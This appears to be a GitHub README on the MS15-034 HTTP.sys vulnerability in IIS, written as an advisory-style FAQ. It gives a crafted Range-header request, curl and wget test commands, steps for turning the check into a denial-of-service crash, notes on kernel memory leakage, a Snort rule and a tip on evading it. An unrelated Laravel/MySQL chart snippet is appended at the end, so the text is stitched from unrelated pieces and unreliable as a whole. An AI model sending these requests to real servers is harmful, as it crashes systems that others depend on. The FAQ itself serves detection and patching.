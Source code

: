 IIS-Vulnerability_MS015
MS15-034: Vulnerability in HTTP.sys could allow remote code execution: April 14, 2015
Summary
This security update resolves a vulnerability in Microsoft Windows. The vulnerability could allow remote code execution if an attacker sends a specially crafted HTTP request to an affected Windows system. The security update addresses the vulnerability by modifying how the Windows HTTP stack handles requests.
```bash
GET /%7Bwelcome.png HTTP/1.1
User-Agent: Wget/1.13.4 (linux-gnu)
Accept: */*
Host: [server-ip]
Connection: Keep-Alive
Range: bytes=18-18446744073709551615
```
===========================

FAQ

1 - Which Versions of Windows Are Vulnerable?
Windows 7, Windows Server 2008 R2, Windows 8, Windows Server 2012, Windows 8.1, and Windows Server 2012 R2. HTTP.sys is used by any version of IIS running on one of these operating systems. HTTP.sys was introduced with IIS 6.

2 - Will an IPS protect me?
Yes. If you have the right rules installed. For example, here is a simple rule for Snort:

alert tcp $EXTERNAL_NET any -> $HOME_NET 80 (msg: " MS15-034 Range Header HTTP.sys Exploit"; content: "|0d 0a|Range: bytes="; nocase; content: "-"; within: 20 ; byte_test: 10,>,1000000000,0,relative,string,dec ; sid: 1001239;)

(byte_test is limited to 10 bytes, so I just check if the first 10 bytes are larger then 1000000000)

Watch out, there are some tricks to bypass simple rules, like adding whitespace to the Range: header's value. More info here.

3 - Will the exploit work over SSL?
Yes. Which may be used to bypass your IDS or other network protections

4 - Have you seen active exploits "in the wild"?
Not yet. We have seen working DoS exploits, but have not detected them in our honeypots. Erratasec conducted a (partial) scan of the Internet using a non-DoS exploit with the intend to enumerate vulnerable systems.

5 - How do I know if I am vulnerable?
Send the following request to your IIS server:

GET / HTTP/1.1 Host: MS15034 Range: bytes=0-18446744073709551615 If the server responds with "Requested Header Range Not Satisfiable", then you may be vulnerable.

Test Scripts:

(powershell removed as it doesn't support 64 bit intergers... worked without error for me, but something else may have been wrong with it)

curl -v [ipaddress]/ -H "Host: test" -H "Range: bytes=0-18446744073709551615"

wget -O /dev/null --header="Range: 0-18446744073709551615" http://[ip address]/

6 - Can this vulnerability be exploited to do more then a DoS?
In it's advisory, Microsoft considered the vulnerability as a remote code execution vulnerability. But at this point, no exploit has been made public that executed code. Only DoS exploits are available. There also appears to be an information disclosure vulnerability. If the lower end of the range is one byte less then the size of the retrieved file, kernel memory is appended to the output before the system reboots. In my own testing, I was not able to achieve consistent information leakage. Most of the time, the server just crashes.

[Turns out, the file does not have to be > 4GB. Tried it with a short file and it worked. The >4GB information came from a bad interpretation of mine of the chinese article in the "Resources" section]

7 - How to I launch the DoS exploit?
In the example PoC above, change the "0-" to "20-". (has to be smaller then the size of the file retrieved, but larger then 0)

8 - What is special about the large number in the PoC exploit?

It is 2^64-1. The largest 64 bit number (hex: 0xFFFFFFFFFFFFFFFF)

9 - Any Other Workarounds?
In IIS 7, you can disable kernel caching.

10 - Is only IIS vulnerable? Or are other components affected as well?
Potentially, anything using HTTP.sys and kernel caching is vulnerable. HTTP.sys is the Windows library used to parse HTTP requests. However, IIS is the most common program exposing HTTP.sys. You may find potentially vulnerable components by typing: netsh http show servicestate (thx to @Gmanfunky)

11 - Will IIS Request Filtering Protect Me?
No. IIS Request Filtering happens after the Range header is parsed.

References:

https://ma.ttias.be/remote-code-execution-via-http-request-in-iis-on-windows/ https://technet.microsoft.com/library/security/MS15-034 https://support.microsoft.com/en-us/kb/3042553 http://blogs.360.cn/blog/cve_2015_6135_http_rce_analysis (Chinese)

Thanks to Threatstop for providing an IIS server for testing.



***************
Refrence: https://www.reddit.com/r/laravel/comments/2xeqz2/laravel_and_eloquent_count_with_chartjs/
and for ajax you can use this link: https://dyclassroom.com/chartjs/chartjs-how-to-create-line-graph-using-data-from-mysql-mariadb-table-and-php
Google url was searched: https://www.google.com/search?rlz=1C1GCEA_enIR936IR936&sxsrf=ALeKk03n3HyeFFzwOsmVzcOkoHZ0r4FItw:1621799880602&q=get+data+mysql+by+date+day+to+show+in+chart+js&spell=1&sa=X&ved=2ahUKEwjQ-p2uy-DwAhXPOcAKHeHsCJ4QBSgAegQIARAt&biw=1920&bih=969
keyword was searched: get data mysql by date day to show in chart js


//Laravel ORM
$start = '2021-04-12';
$end   = '2021-05-12';

// Get data from period
// $get_date = User::where('created_at', '>=', $start)->where('created_at', '<=', $end)->groupBy(DB::raw('DATE(users.created_at)'))->get([DB::raw('COUNT(*) as count'), DB::raw('DATE(users.created_at) as date')]);
  
// Get data from 7 day ago
// $get_date = User::where('created_at', '>=', DB::raw('DATE(NOW()) - INTERVAL 7 DAY'))->groupBy(DB::raw('DATE(users.created_at)'))->get([DB::raw('COUNT(*) as count'), DB::raw('DATE(users.created_at) as date')]);

// RAW QUERY

// select COUNT(*) as count, DATE(users.created_at) as date from `users` where `created_at` >= '2021-04-12' and `created_at` <= '2021-05-12' group by DATE(users.created_at)

// select COUNT(*) as count, DATE(users.created_at) as date from `users` where `created_at` >= DATE(NOW()) - INTERVAL 7 DAY group by DATE(users.created_at)

dd($get_date);
